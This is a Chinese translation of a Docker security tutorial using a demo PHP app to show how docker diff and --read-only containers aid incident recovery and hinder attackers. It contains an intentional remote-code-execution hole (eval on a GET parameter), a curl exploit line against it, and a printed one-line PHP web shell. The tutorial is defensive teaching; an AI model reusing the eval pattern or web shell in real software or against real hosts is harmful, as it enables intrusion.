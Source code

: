使用不可变基础设施增加攻击者的成本
========================================

Docker容器的一个独到之处它实时上是不可变的。 Docker附带一个写时拷贝文件系统，这意味着基础镜像不能被修改，除非你明确地发布一个commit指令。

这么做的原因之一是，可以很容易检查偏移，如果你在调查一个安全事故，这可能会派上用场。

#### 1. Demo
--------------------------

以下面的Demo为例：

![](Security-diagrams.png)

我们的前端运行着一个[PHP应用程序](https://github.com/diogomonica/apachehackdemo)，还有一个MySQL服务器作为后端数据库。 你可以跟着操作，尝试运行下面的代码：

```bash
docker run -d --name db -e MYSQL_ROOT_PASSWORD=insecurepwd mariadb
docker run -d -p 80:80 --link db:db diogomonica/phphack
```

现在你有数据库和前端的运行，你应该会收到像下面这样的问候：

![](welcome.png)

不幸的是，与其他PHP应用程序不同，这个应用程序有一个远程代码执行漏洞：

```php
if($links) {  
	<h3>Links found</h3>  
	... 
	eval($_GET['shell']);  
?>
```

这像是一个人在不应该的地方使用了*eval*！任何的攻击者可以利用这个漏洞，并且在远端的主机上执行任意的命令：

```bash
 curl -s http://localhost/\?shell\=system\("id"\)\; | grep "uid=" uid=33(www-data) gid=33(www-data) groups=33(www-data)  
```

任何攻击者对最近被攻击的主机的第一个动作是通过下载PHP shell和工具包使自己更无拘无束。 有些攻击者甚至可能会重新设计您的网站：

![](hacked.png)

#### 2. 从非法入侵中恢复
----------------------------

回到不可变性，写时拷贝文件系统提供的一个很酷的事情是能够看到发生的所有更改。通过使用*docker diff*指令，我们可以看到攻击者在文件方面所做修改：

```bash
docker diff pensive_meitner
C /run  
C /run/apache2  
A /run/apache2/apache2.pid  
C /run/lock  
C /run/lock/apache2  
C /var  
C /var/www  
C /var/www/html  
C /var/www/html/index.html  
A /var/www/html/shell.php  
```

有趣的是，攻击者不仅修改*index.html*，也下载了php-shell，为了方便命名为*shell.php*。但我们的重点应该是让网站重新上线。

为了方便之后引用，我们可以通过*docker commit*储存这个镜像，既然容器是不可变的(🎉)，我们可以重启我们的容器，重新上线：

```bash
docker commit pensive_meitner
sha256:ebc3cb7c3a312696e3fd492d0c384fe18550ef99af5244f0fa6d692b09fd0af3  

docker kill pensive_meitner

docker run -d -p 80:80 --link db:db diogomonica/phphack
```

重新访问：

![](backinbiz.png)

现在我们可以回到那张保存的图像，看看攻击者修改了什么：

```bash
docker run -it ebc3cb7c3a312696e3fd492d0c384fe18550ef99af5244f0fa6d692b09fd0af3 sh
# cat index.html
<blink>HACKED BY SUPER ELITE GROUP OF HACKERS</blink>  

# cat shell.php
<?php  
eval($_GET['cmd']);  
?>
```

看起来我们刚刚被著名的SUPER ELITE GROUP OF HACKERS入侵了。¯\(ツ)/¯


#### 3. 增加攻击者的成本
----------------------------------

能看到攻击后的容器里的改变固然重要，但是如果我们在最开始就可以避免攻击会怎么样呢？这就是*-read-only*出现的地方。

*-read-only*标志指示Docker不允许对容器的文件系统进行任何写入。这将避免对*index.php*的任何修改，但更重要的是，它不会允许攻击者下载php shell或其他任何攻击者想使用的有用工具。

让我们试一下，看看会发生什么：

```bash
docker run -p 80:80 --link db:db -v /tmp/apache2:/var/run/apache2/ -v /tmp/apache:/var/lock/apache2/ --sig-proxy=false --read-only diogomonica/phphack
...

172.17.0.1 - - [04/Sep/2016:03:59:06 +0000] "GET / HTTP/1.1" 200 219518 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.82 Safari/537.36 OPR/39.0.2256.48"  

sh: 1: cannot create index.html: Read-only file system  
```

鉴于我们的文件系统现在是只读的，似乎攻击者试图修改我们的*index.html*失败了。

#### 4. 这是没有缺陷的吗？
----------------------------

不，绝对不是。 直到我们修复这个RCE漏洞，攻击者仍然能够在我们的主机上执行代码，窃取我们的凭据，并且泄漏我们的数据库中的数据。

这里讲的是，连同运行最小的镜像和一些其他很酷的Docker安全功能，你可以使任何攻击者更难以维护持久性，更难继续乱改你的网络。

#### 5. 总结
------------------------------

我们的应用程序的安全性永远不会是完美的，但是具有不可变的基础设施有助于故障响应，允许快速恢复，并使攻击者的工作更难。

如果通过使用一个强大的沙箱，调整一些旋钮，你就可以使你的应用程序更安全，为什么不呢？



#### 6. 参考文献
------------------------------

原文链接：https://diogomonica.com/2016/11/19/increasing-attacker-cost-using-immutable-infrastructure/?from=groupmessage

作者：Diogo Mónica

